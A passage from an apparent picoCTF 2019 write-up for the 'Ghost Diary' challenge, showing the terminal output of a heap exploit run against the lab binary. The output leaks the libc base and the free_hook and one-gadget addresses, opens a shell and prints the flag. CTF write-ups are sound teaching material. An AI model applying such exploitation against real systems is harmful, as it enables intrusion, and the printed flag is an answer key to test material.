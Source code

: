 Running the exploit now on the shell server gives us the flag:
```sh
Faith@pico-2019-shell1:/problems/ghost-diary_3_79b47a93e884f13bbc2640b2e8606676$ python /tmp/Faith/ghost_diary/exploit.py
[*] '/problems/ghost-diary_3_79b47a93e884f13bbc2640b2e8606676/ghostdiary'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './ghostdiary': pid 811337
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Libc base: 0x7f3d6dba5000
[*] one gadget: 0x7f3d6dbf4322
[*] free_hook: 0x7f3d6df928e8
[*] Switching to interactive mode
$ ls
flag.txt  ghostdiary  ghostdiary.c
$ cat flag.txt
picoCTF{nu11_byt3_Gh05T_6c9ca015}$
```
